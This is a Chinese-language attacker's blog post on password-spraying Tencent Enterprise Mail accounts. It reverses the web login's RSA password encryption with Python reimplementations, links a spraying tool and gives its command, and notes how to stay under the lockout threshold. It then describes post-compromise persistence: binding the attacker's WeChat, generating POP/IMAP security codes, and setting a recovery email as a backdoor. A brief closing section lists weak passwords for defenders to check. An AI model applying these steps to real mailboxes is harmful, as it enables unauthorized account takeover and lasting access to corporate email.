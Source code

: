 # 0x01 前言

漏洞打点越来越难，最近整起了邮箱钓鱼，自建MX Server搭配GoFish可以满足大部分，提前养好域名也能投递到目标非垃圾箱邮箱，但是有一个内部邮箱才是一个神挡杀神的存在，分析了腾讯企业邮箱的登录逻辑，企业邮箱对POP3和SMTP的登录做了限制，只有绑定了微信登录并且开启了安全码（16位数字加大小写字母）才允许通过995、465端口进行认证登录，16位随机字符串基本排除爆破的可能。因此研究了前端web的登录逻辑，简单写了个单线程密码喷洒的脚本，自测效果还不错（尤其是内网DMZ打完。密码收集完，突破到办公系统）。

# 0x02 前台加密分析

TX企业邮箱Web端登录前台会对传入的数据进行RSA加密，加密代码

```javascript
var PublicKey = "CF87D7B4C864F4842F1D337491A48FFF54B73A17300E8E42FA365420393AC0346AE55D8AFAD975DFA175FAF0106CBA81AF1DDE4ACEC284DAC6ED9A0D8FEB1CC070733C58213EFFED46529C54CEA06D774E3CC7E073346AEBD6C66FC973F299EB74738E400B22B1E7CDC54E71AED059D228DFEB5B29C530FF341502AE56DDCFE9";
var RSA = new RSAKey();
RSA.setPublic(PublicKey, "10001");
var PublicTs="1657285628";

var Res = RSA.encrypt(document.form1.pp.value + '\n' + document.form1.ts.value + '\n');
if (Res )
{
if (document.form1.chg.value == 1)
{
document.form1.p.value = hex2b64(Res);
}
else
{
if (document.form1.ppp.value != "")
{
document.form1.p.value = document.form1.ppp.value;
}
else
{
document.form1.p.value = hex2b64(Res);
}
}
```

不懂RSA，简单谷歌了下，这个PublicKey是rsa的模量，10001是指数，可以使用模量和指数生成公钥，然后利用公钥进行加密，找了下网上公开的算法，找到了python2和python3两个版本的实现方法，这里统一留存下

**python2**

```python
import sys

from binascii import a2b_hex, b2a_hex
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5
from Crypto.Util.number import bytes_to_long

def encrypt_with_modulus(content, modulus=None):
  e = long(0x10001)
  n = bytes_to_long(a2b_hex(modulus))
  rsa_key = RSA.construct((n, e))
  # generate/export public key
  public_key = rsa_key.publickey()
  print(dir(public_key))
  print(dir(public_key.exportKey))
  print(public_key.exportKey.im_self)

  cipher = PKCS1_v1_5.new(public_key)
  # print(dir(cipher))
  content = cipher.encrypt(content)
  content = b2a_hex(content)
  return str(content)

result = encrypt_with_modulus("123456\n1657284648\n","CF87D7B4C864F4842F1D337491A48FFF54B73A17300E8E42FA365420393AC0346AE55D8AFAD975DFA175FAF0106CBA81AF1DDE4ACEC284DAC6ED9A0D8FEB1CC070733C58213EFFED46529C54CEA06D774E3CC7E073346AEBD6C66FC973F299EB74738E400B22B1E7CDC54E71AED059D228DFEB5B29C530FF341502AE56DDCFE9")

print(result)
```

**python3**

```python
def encrypt_with_modulus(e,n,content):
    """
    根据 模量与指数 生成公钥，并利用公钥对内容 rsa 加密返回结果
    :param e:指数
    :param m: 模量
    :param content:待加密字符串
    :return: 加密后结果
    """
    e = int(e, 16)
    m = int(n, 16)

    pub_key = rsa.PublicKey(e=e, n=n)
    m = rsa.encrypt(content.encode(),pub_key)
    print(m.hex())
    return m.hex()


if __name__ == '__main__':
    m = "CF87D7B4C864F4842F1D337491A48FFF54B73A17300E8E42FA365420393AC0346AE55D8AFAD975DFA175FAF0106CBA81AF1DDE4ACEC284DAC6ED9A0D8FEB1CC070733C58213EFFED46529C54CEA06D774E3CC7E073346AEBD6C66FC973F299EB74738E400B22B1E7CDC54E71AED059D228DFEB5B29C530FF341502AE56DDCFE9"
    e = "10001"
    con = '123456\n1657284648\n'
    
    encrypt_with_modulus(e=e, m=m, content=con)
```

WEB端对`passwd\ntimestamp\n`这个串进行RSA加密，企业邮对同一账户的登录次数做了限制，大概测了下，10分钟内错误三次就会触发验证码机制，所以在收集到目标准确密码本之后，可以邮箱进行密码喷洒。

# 0x03 爆破脚本使用

地址：

```
https://github.com/R1card0-tutu/MailDOG
```

命令:

```
python3 MailDOG.py --domain="exmail.qq.com" --mailadd="main.txt" --passwd="1qaz@WSX" run
```

![image-20220709072012530](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207090720884.png)

# 0x04 后利用

在拿到邮箱之后

## 01 绑定微信

如果目标账号没有绑定微信，可以直接扫码绑定微信，没有二次验证

![image-20220709073543173](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207090735220.png)

## 02 安全码

生成16位安全码，可以使用POP和IMAP进行收发信操作。注意端口号，失败可以尝试下SSL端口。

![image-20220709073818909](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207090739256.png)

## 03 密保邮箱

上面两个操作基本就是一锤子买卖，用完账号基本也就凉了。当目标没有绑定手机号时，可以在账户 > 账户安全 > 设置密保邮箱，作为一个后门留存。

![image-20220709074113241](https://cdn.jsdelivr.net/gh/R1card0-tutu/R1card0-tutu@main/img/202207090741267.png)

# 0x05 企业邮安全

- 自查邮箱账户的0x03的三项。

- 排查用户的常见口令

```
1qaz@WSX
目标域名@年份
目标域名#年份
Passw@rd
Passw0rd1
P@ssw0rd
```

